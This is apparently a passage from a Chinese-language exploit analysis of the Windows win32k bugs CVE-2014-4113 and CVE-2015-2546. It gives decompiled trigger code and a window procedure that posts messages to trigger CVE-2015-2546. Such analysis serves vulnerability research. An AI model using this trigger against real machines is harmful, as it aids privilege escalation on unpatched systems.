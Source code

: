 ```
          return 1;
        v23 = v22 - 0xE8;       // uMsg - 0xE8
        if ( v23 )          
        {
          if ( v23 == 1 )
          {
               // CVE-2014-4113漏洞触发点
            iRet = (_DWORD *)xxxMNFindWindowFromPoint((WCHAR)v3, (int)&UnicodeString, (int)v7);
             
            if ( iRet == (_DWORD *)-1 )
              xxxMNButtonDown(v3, v12, UnicodeString, 1);
            else
              xxxSendMessage(iRet, 0xED, UnicodeString, 0);
            if ( !(v12[1] & 0x100) )
              xxxMNRemoveMessage(*(_DWORD *)(a1 + 4), 516);
          }
          return 0;
        }
     
           // CVE-2015-2546漏洞触发点
        xxxMNMouseMove((WCHAR)v3, a2, (int)v7);
        return 1;
      }
    }
  }
  return 1;
}

```

经过计算，uMsg 等于 0x201 的时候，会触发 CVE-2014-4113 的漏洞，当它等于 0x200 的时候会触发 CVE-2015-2546 的漏洞。而 uMsg 的值是由主窗口处理例程中的第三个 PostMessageA 的第二个参数决定的，根据以下的定义可以知道，本次漏洞的触发需要通过 PostMessageA 发送 WM_MOUSEMOVE 的消息

```
#define WM_MOUSEMOVE                   0x0200
#define WM_LBUTTONDOWN                  0x0201

```

并且，在进入 xxxMouseMove 函数中，会对第三个 PostMessageA 的第四个参数进行判断，该值如果为 0，将不会调用 xxxMNHideNextHierarchy 触发漏洞，所以此次的 exp 的主窗口例程的处理函数应该改成如下的代码：

```
LRESULT CALLBACK WndProc_2015_2546(HWND hWnd, UINT uMsg, WPARAM wParam, LPARAM lParam)
{
    if (uMsg == WM_ENTERIDLE)
    {
        if (!bFlag)
        {
            bFlag = TRUE;
            PostMessageA(hWnd, WM_KEYDOWN, VK_DOWN, 0);
            PostMessageA(hWnd, WM_KEYDOWN, VK_RIGHT, 0);
            PostMessageA(hWnd, WM_MOUSEMOVE, 0, 1);
        }
        else
        {
            PostMessageA(hWnd, WM_CLOSE, 0, 0);
        }
    }
 
    return DefWindowProcA(hWnd, uMsg, wParam, lParam);
}

```
